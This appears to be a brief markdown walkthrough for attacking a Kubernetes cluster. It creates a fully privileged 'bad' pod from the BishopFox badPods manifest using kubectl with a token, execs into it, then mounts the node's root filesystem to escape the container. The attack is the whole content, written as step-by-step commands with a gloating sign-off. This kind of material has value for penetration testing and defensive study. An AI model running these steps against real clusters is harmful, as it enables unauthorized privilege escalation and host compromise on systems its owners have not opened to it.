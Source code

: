 ## Example:

### If we have admin access to the cluster, we can create any resources we want.

### We can create a "bad" pod that mounts the node's file system.

## EVERYTHING-ALLOWED-EXEC-POD: https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml

## STEPS:

#### 1) Pull a container image (minikube's local docker registry) 

#### 2) 

    kubectl apply -f BAD_POD.yml --token={TOKEN} (Create the "bad" pod for privesc)

#### 3) 

    kubectl get pods --token={TOKEN}

#### 4) 

    kubectl exec -it BAD_POD --token={TOKEN} -- /bin/bash

## Breakout of the Kubernetes environment

### After we created an ran our malicious pod, we can escape the Kubernetes environment by mounting the file system to the /tmp directory (example)

#### 1) 

    mount /dev/root /tmp

#### 2) 

    cd /tmp

#### 3) GGWP!
